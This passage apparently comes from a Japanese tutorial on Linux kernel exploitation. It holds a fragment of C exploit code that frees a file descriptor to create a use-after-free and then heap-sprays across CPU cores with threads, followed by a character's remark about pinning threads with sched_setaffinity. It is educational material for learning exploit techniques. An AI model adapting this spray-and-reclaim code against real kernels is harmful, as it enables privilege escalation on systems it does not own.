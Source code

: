 ```c
    }
  }

  for (int i = 0; i < 800; i++)
    close(spray[i]);
  return (void*)-1;
}

...

  // Use-after-Freeの作成
  close(fd1);

  /* 複数コアでのHeap Spray */
  long victim_fd = -1;
  // メインスレッドで試す
  victim_fd = (long)spray_thread(NULL);
  // メインスレッドで失敗したらサブスレッドの結果を利用
  while (victim_fd == -1) {
    puts("[+] spraying on another CPU...");
    pthread_create(&th1, NULL, spray_thread, NULL);
    pthread_join(th1, (void*)&victim_fd);
  }
```

<div class="balloon_l">
  <div class="faceicon"><img src="../img/wolf_normal.png" alt="オオカミくん" ></div>
  <p class="says">
  　sched_setaffinity関数を使うと、スレッドが利用するCPUを制限できるから、コア数が増えても2コアの時と同じような挙動になるよ。
  </p>
</div>


[^1]: CPUによっては最適化のために命令の実行順序が変わるといったさらに粒度の低い話もありますが、今回は関係ないので説明しません。